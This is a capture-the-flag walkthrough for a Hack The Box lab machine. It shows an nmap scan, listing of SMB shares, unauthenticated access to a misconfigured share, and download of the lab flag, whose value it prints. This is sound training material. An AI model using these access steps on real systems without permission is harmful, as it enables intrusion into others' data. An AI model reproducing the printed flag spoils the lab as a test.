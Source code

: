 # Hack The Box Machines: Fawn
Once the machine is spawn, let's scan de services and their versions running in the target machine with **nmap**.

```sh
❯ target=10.129.177.171
❯ nmap -sV $target
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-13 16:50 CEST
Nmap scan report for 10.129.177.171
Host is up (0.062s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.49 seconds
```

As seen the **445 TCP** port is opened and running, so there is a **share** where we can access, let's try it the script **smbclient**.

```sh
❯ smbclient -L $target
Enter WORKGROUP\gemonpar's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk      
SMB1 disabled -- no workgroup available

```

Once the command is executed, the target machine displays four shared folders, the first three needs admins privilegies while the **WorkShares** folder seems to be made for workflow. Let's try connect to that folder putting the same **password** as the current user **gemonpar** in the attack machine. This happens due to a missconfiguration in the **WorkShares** folder, allowing users without privilegies open that folder.

```sh
❯ smbclient \\\\$target\\WorkShares
Enter WORKGROUP\gemonpar's password: 
Try "help" to get a list of possible commands.
smb: \> 
```

As seen, the login is successful, so now lets see which commands are allowed the **help** command.

```sh
smb: \> help
?              allinfo        altname        archive        backup         
blocksize      cancel         case_sensitive cd             chmod          
chown          close          del            deltree        dir            
du             echo           exit           get            getfacl        
geteas         hardlink       help           history        iosize         
lcd            link           lock           lowercase      ls             
l              mask           md             mget           mkdir          
more           mput           newer          notify         open           
posix          posix_encrypt  posix_open     posix_mkdir    posix_rmdir    
posix_unlink   posix_whoami   print          prompt         put            
pwd            q              queue          quit           readlink       
rd             recurse        reget          rename         reput          
rm             rmdir          showacls       setea          setmode        
scopy          stat           symlink        tar            tarmode        
timeout        translate      unlock         volume         vuid           
wdel           logon          listconnect    showconnect    tcon           
tdis           tid            utimes         logoff         ..             
!              
smb: \> 
```
So if we make an **ls** we see two directories **Amy.J** and **James.P**, the **flag.txt** is in the James.P folder.

```sh
smb: \> ls
  .                                   D        0  Mon Mar 29 10:22:01 2021
  ..                                  D        0  Mon Mar 29 10:22:01 2021
  Amy.J                               D        0  Mon Mar 29 11:08:24 2021
  James.P                             D        0  Thu Jun  3 10:38:03 2021

		5114111 blocks of size 4096. 1750989 blocks available
smb: \> ls Amy.J\
  .                                   D        0  Mon Mar 29 11:08:24 2021
  ..                                  D        0  Mon Mar 29 11:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 12:00:37 2021

		5114111 blocks of size 4096. 1750989 blocks available
smb: \> ls James.P\
  .                                   D        0  Thu Jun  3 10:38:03 2021
  ..                                  D        0  Thu Jun  3 10:38:03 2021
  flag.txt                            A       32  Mon Mar 29 11:26:57 2021

		5114111 blocks of size 4096. 1750989 blocks available
smb: \> get James.P\flag.txt 
getting file \James.P\flag.txt of size 32 as James.P\flag.txt (0,2 KiloBytes/sec) (average 0,2 KiloBytes/sec)
❯ cat James.P\\flag.txt
       │ File: James.P\flag.txt
   1   │ 5f61c10dffbc77a704d76016a22f1664
```

Finally there is the flag **5f61c10dffbc77a704d76016a22f1664**.
